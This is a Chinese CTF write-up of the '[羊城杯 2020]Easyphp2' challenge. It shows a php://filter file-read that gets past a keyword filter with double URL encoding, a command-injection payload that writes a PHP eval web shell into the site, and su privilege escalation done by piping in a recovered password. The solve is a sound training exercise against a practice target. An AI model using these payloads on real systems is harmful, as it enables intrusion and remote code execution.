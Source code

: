 ```yaml
---
title: '[羊城杯 2020]Easyphp2'
date: 2024-09-24 14:45:09
tags: su提权
categories: 刷题笔记
---
```


## [羊城杯 2020]Easyphp2

我们打开页面，显示404，并有提示，只有来自GWHT的人才能通过

![image-20240924152049225](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241520343.png)

我们想到修改cookie，我们将pass的值修改为GWHT就能进入网站

<!--more-->

![image-20240924152138292](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241521487.png)

给了个提交框后没啥别的信息了，我们发现url传的参数是file，通常这种参数都能用来进行php伪协议

我们尝试输入

```
?file=php://filter/convert.base64-encode/resource=GWHT.php
```

![image-20240924152351611](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241523688.png)

成功报错，说明过滤了什么东西，经过fuzz，我们发现过滤了base64，

我们对base64进行二次解码

```
http://d6fbdc3d-6443-4349-be87-4d7d289f2340.node5.buuoj.cn:81/?file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34-encode/resource=GWHT.php
```

得到php源码

![image-20240924152834168](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241528197.png)

```
    <?php
    ini_set('max_execution_time', 5);

    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('<h2>'.'<hacker>'.'<h2>'.'<br>'.'<h1>'.'404'.'<h1>'.'<br>'.'Sorry, only people from GWHT are allowed to access this website.'.'23333');
    }
    ?>


    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
    }
    ?>
```

第一个php的意思是cookie要是GWHT,我们通过了不用管了

第二个php用来rce的

```
简化一下就是这样子，虽然它过滤了<?php但我们可以用<?=代替。
printf '  $count  ' | wc -c

payload：
'|echo "<?= eval(\$_POST['cmd'])?>" |tee a.php|'

合起来就是这样，意思是把shell写入a.php文件里。
printf ''|echo "<?= eval(\$_POST['cmd'])?>" |tee shell
.php | '' | wc -c

```

我们提交payload

成功上传了

![image-20240924153159852](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241531955.png)

我们用蚁剑进行连接

![image-20240924153453324](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241534378.png)

我们用find命令寻找flag

```
find / -name flag*
```

![image-20240924153900661](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241539693.png)

我们打开发现flag.txt里面什么都没有

我们在readme里发现密码

![image-20240924154007281](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241540312.png)

解码后是GWHTCTF

接下来一个就是su提权

直接切换用户不行，因为蚁剑shell不是完整tty

![image-20240924154145098](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241541160.png)

我们利用管道输出符进行传输密码

```
printf "GWHTCTF" | su - GWHT -c 'cat /GWHT/system/of/a/down/flag.txt'
```

得到flag

![image-20240924154234144](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241542166.png)
